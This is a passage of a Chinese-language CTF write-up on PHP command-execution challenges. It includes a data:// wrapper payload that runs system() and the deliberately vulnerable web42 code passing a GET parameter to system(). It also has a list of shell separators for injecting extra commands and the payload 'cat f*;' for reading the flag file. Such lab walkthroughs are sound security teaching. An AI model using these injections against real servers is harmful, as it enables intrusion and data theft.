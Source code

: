 **payload**

```
/?c=data:text/plain,<?=system("tac fla*");?>
```

------

<div style="page-break-after:always"></div>

### 类型三

接受并过滤传入的变量拼接命令执行（system函数）和类型一的区别是题目中已经给了sysytem函数

![image-20231216125607107](image/image-20231216125607107.png)

就不需要我们重新构建了

#### web42

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}

```

[重定向](https://www.cnblogs.com/ultranms/p/9353157.html)

```
1：> 代表重定向到哪里，例如：echo “123” > /home/123.txt
2：/dev/null 代表空设备文件
3：2> 表示stderr标准错误
4：& 表示等同于的意思，2>&1，表示2的输出重定向等同于1
5：1 表示stdout标准输出，系统默认值是1，所以">/dev/null"等同于 “1>/dev/null”
因此，>/dev/null 2>&1 也可以写成“1> /dev/null 2> &1”
```

常用的分隔符

```
; 分号顺序执行
&& 顺序执行
|| 前边执行成功则不再执行
换行符(在url中是%0a)
& (在url中是%26)
```

**payload**

```
/?c=cat f*;
```

------

